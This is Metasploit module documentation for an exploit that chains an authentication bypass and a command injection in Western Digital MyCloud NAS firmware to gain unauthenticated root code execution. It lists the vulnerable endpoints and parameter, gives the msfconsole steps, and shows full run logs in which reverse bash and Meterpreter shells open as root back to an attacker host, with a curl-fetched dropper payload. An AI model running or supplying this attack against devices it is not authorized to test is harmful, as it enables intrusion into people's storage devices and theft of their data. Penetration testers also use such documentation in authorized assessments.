 ## Vulnerable Application
This module exploits authentication bypass (CVE-2018-17153) and command injection (CVE-2016-10108) vulnerabilities in
Western Digital MyCloud before 2.30.196 in order to achieve unauthenticated remote code execution as the root user.

The module first performs a check to see if the target is WD MyCloud.
If so, it attempts to trigger an authentication bypass (CVE-2018-17153) via a crafted GET request to /cgi-bin/network_mgr.cgi.
If the server responds as expected (with a 404 response), the module assesses the vulnerability status by attempting to exploit
a commend injection vulnerability (CVE-2016-10108) in order to print a random string via the echo command.
This is done via a crafted POST request to /web/google_analytics.php where the command is injected into the `arg` POST parameter.

If the server is vulnerable, the same command injection vector is leveraged to execute the payload.

This module has been successfully tested against Western Digital MyCloud version 2.30.183.

Note: based on the available disclosures, it seems that the command injection vector (CVE-2016-10108) might be exploitable
without the authentication bypass (CVE-2018-17153) on versions before 2.21.126.
The obtained results on 2.30.183 imply that the patch for CVE-2016-10108 did not actually remove
the command injection vector, but only prevented unauthenticated access to it.
However, since older versions will also be vulnerable to CVE-2018-17153, this module always chains exploits for both issues.

- CVE-2016-10108 disclosure and PoC:
https://web.archive.org/web/20170315123948/https://www.stevencampbell.info/2016/12/command-injection-in-western-digital-mycloud-nas/

- CVE-2018-17153 disclosure and Poc:
https://www.securify.nl/advisory/authentication-bypass-vulnerability-in-western-digital-my-cloud-allows-escalation-to-admin-privileges/


## Installation Information
Western Digital no longer seems to offer older firmware versions for download to non-customers.
[This commnity post](https://community.wd.com/t/wd-my-cloud-v3-x-v4-x-and-v2-x-firmware-versions-download-links/148533)
contains download links to older firmware versions as well as to the source code, but only the links to the source code still work.

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/linux/http/wd_mycloud_unauthenticated_cmd_injection`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `exploit`

## Options
### TARGETURI
The base path to WD MyCloud. The default value is `/`.

## Targets
```
Id  Name
--  ----
0   Unix In-Memory
1   Linux Dropper
```

## Scenarios
### Western Digital MyCloud 2.30.183 - Unix In-Memory
```
msf6 exploit(linux/http/wd_mycloud_unauthenticated_cmd_injection) > options 

Module options (exploit/linux/http/wd_mycloud_unauthenticated_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.45      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to WD MyCloud
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  10.10.10.18      yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.10.18      yes       The listen address (an interface may be specified)
   LPORT  6000             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix In-Memory



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/wd_mycloud_unauthenticated_cmd_injection) > run

[*] Started reverse TCP handler on 10.10.10.18:6000 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] 10.10.10.45:443 - The target is WD MyCloud. Checking vulnerability status...
[*] 10.10.10.45:443 - Attempting to execute echo tLD1sR3mLQXV1AYFuHV46x5...
[+] The target is vulnerable. The target executed the echo command.
[*] 10.10.10.45:443 - Executing the payload. This may take a few seconds...
[*] Command shell session 1 opened (10.10.10.18:6000 -> 10.10.10.45:45402) at 2023-07-26 13:51:06 +0000
id
uid=0(root) gid=0(root) groups=0(root)
head /usr/local/config/config.xml
<config>
	<sw_ver_1>2.30.183</sw_ver_1>
	<sw_ver_2>2.30.183.0116.2018</sw_ver_2>
	<hw_ver>WDMyCloudEX4100</hw_ver>
	<eula>1</eula>
	<language>0</language>
	<registered>0</registered>
	<eula_fw>0</eula_fw>
	<eula_apps>0</eula_apps>
	<analytics>0</analytics>
```
### Western Digital MyCloud 2.30.183 - Linux Dropper
```
msf6 exploit(linux/http/wd_mycloud_unauthenticated_cmd_injection) > options 

Module options (exploit/linux/http/wd_mycloud_unauthenticated_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.45      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to WD MyCloud
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  10.10.10.18      yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/armle/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.10.18      yes       The listen address (an interface may be specified)
   LPORT  6001             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/wd_mycloud_unauthenticated_cmd_injection) > run

[*] Started reverse TCP handler on 10.10.10.18:6001 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] 10.10.10.45:443 - The target is WD MyCloud. Checking vulnerability status...
[*] 10.10.10.45:443 - Attempting to execute echo gkmp1ak8jprpqinbvmN84QXaWfgirEt...
[+] The target is vulnerable. The target executed the echo command.
[*] Using URL: http://10.10.10.18:8080/xFQRlaZ5ODY9ZQa
[*] Client 10.10.10.45 (curl/7.42.1) requested /xFQRlaZ5ODY9ZQa
[*] Sending payload to 10.10.10.45 (curl/7.42.1)
[*] Sending stage (934728 bytes) to 10.10.10.45
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Meterpreter session 2 opened (10.10.10.18:6001 -> 10.10.10.45:43738) at 2023-07-26 13:51:59 +0000
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 10.10.10.45
OS           :  (Linux 3.10.39)
Architecture : armv7l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
```
